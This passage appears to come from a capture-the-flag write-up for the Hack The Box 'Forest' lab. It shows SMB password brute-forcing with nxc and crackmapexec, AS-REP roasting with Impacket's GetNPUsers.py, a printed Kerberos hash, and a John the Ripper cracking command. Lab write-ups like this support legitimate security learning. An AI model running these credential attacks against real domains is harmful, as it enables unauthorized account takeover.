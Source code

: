 Since we have the usernames, and according to the password policy no lockouts are present, we can try bruteforcing, first with `password same as username`
```bash
nxc smb forest.htb -u users.txt -p users.txt --continue-on-success
```
not successful..

then lets bruteforce with the rockyou `wordlist`
```bash
nxc smb bruteforce forest.htb -u users.txt -p /usr/share/wordlists/rockyou.txt
```
not successful..

lets try another `wordlist`:
```bash
wget <https://raw.githubusercontent.com/insidetrust/statistically-likely->
usernames/master/weak-corporate-passwords/english-basic.txt

crackmapexec smb 10.129.95.210 -d forest -u users.txt -p english-basic.txt
```
no luck with this either.. it appears that bruteforce might not be the way to go here... 

## AS-REP Roasting

##### Reminder
 `AS-REP Roasting` targets **user accounts that do not require Kerberos pre-authentication**, specifically those with the **`DONT_REQUIRE_PREAUTH`** flag set in Active Directory. That is why we will not specify any password on the command below.

If you remember, at the Anonymous LDAP Enumeration section, i have found that there are users that have `DONT_REQ_PREAUTH` enabled! Which is a requirement to perform `AS-REP roasting`!!!
```bash
GetNPUsers.py htb.local/ -no-pass -usersfile user-remote.txt -dc-ip 10.129.95.210
```

```bash
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies

$krb5asrep$23$svc-alfresco@HTB.LOCAL:daa8803b31320062bdcff3219907b0ad$f6d1e658a8007cef65449557518a5fa9c4df1fbb8f082cb04f0e9ccc1d12e665e159517df9001e47f5daf38c50f4c43a599a30c343ecb8ff5c3064bd74aaa2b6d87fca32c837fd0831f0daf15b4d29cb4349d23e941643427c4d16ff7a09ba6703541370bdefe5c703f2c5a6a9275f58a679499e075a664ce6289ae298bda4b4f48806fb083c7fc3d74aaa0f85e8b1bbba890eac2ca7341e28c718425b423b997ea065c2e8519f6b025012aa4e86d3e8b91c12974109ef57da3ffb833161876739574bb54eb953772a9d9ff55f074346ce374ae4f1214989d488af7cc17a9b33f454bdf81e92
```
great! we got an AS-REP hash!

## Cracking the AS-REP hash

place the hash as you found it earlier on a txt (hash_forest.txt) and crack it with john the ripper:
```bash
john hash_forest.txt --wordlist=rockyou.txt
```
